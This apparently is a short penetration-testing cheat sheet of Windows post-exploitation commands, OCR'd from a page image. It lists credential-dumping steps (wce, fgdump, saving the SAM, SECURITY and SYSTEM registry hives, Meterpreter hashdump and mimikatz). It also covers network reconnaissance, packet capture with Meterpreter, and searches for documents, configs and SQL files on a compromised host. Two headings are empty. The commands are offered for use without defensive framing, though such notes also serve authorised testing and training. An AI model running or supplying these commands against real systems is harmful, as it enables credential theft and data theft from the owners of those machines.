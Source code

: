 ### Proof

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```
